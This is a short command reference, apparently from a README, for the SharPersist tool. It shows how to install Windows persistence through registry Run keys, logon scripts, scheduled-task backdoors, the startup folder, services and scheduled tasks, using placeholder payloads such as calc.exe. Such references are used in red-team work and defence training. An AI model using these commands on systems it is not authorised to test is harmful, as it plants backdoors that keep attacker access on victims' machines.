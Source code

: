 SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add

### Registry
```
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add

SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env

SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add
```

### Scheduled Task Backdoor
```
SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add
```
### Startup Folder
```
SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add
```

### Windows Service
```
SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
```
### Scheduled Task
```
SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add

SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c echo 123 >> c:\123.txt" -n "Some Task" -m add -o hourly
```
